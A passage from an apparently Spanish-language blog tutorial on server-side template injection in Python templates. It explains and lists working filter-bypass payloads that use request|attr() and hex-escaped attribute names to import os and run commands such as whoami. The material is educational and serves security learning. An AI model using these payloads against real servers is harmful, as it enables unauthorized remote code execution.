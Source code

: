 ### RCE evadiendo filtros

En ocasiones puede que los payloads anteriores no se esten ejecutando por que se puede estar filtrando \_\_globals__ o \_\_builtins__, y aqui es donde ```attr()``` llega a salvar el dia, tenemos este payload:

![](/assets/img/UPDWP-ssti/payload_filtros.png)

```request``` tiene representa a la peticion, y tiene toda la informacion de esta(parametros), y ```attr()``` permite acceder directemante a un atributo u objeto que se le indique dentro de los parentesis, y en este caso esta accediendo a ```builtins```, por que tiene las funciones incorporadas de python, y con esto, simplemente le decimos que importe el modulo ```os``` y ejecute el comando ```date```, ojo, esto no llega a funcionar siempre.

Y bueno, te dejo otros payloads para evadir filtros.

#### Bypass de \_\_class__ y _

Tomando en cuenta de que ```request``` tiene acceso a todos los parametros que fueron enviados, se puede usar "request.args.param" para recuperar el valor del parametro que viene por GET: \{\{request[request.args.param]}}&parametroVulnerable=\_\_class__


#### Bypass todo en uno

<code>&{&{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('whoami')|attr('read')()}}</code>

(no pude supe bien como escapar toda la cadena, asi que quitenle los dos ampersan que estan entre las dos llaves del inicio)

#### Referencias
[https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

[https://www.youtube.com/watch?v=SN6EVIG4c-0](https://www.youtube.com/watch?v=SN6EVIG4c-0)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)


Eso ha sido todo, gracias por leer ❤

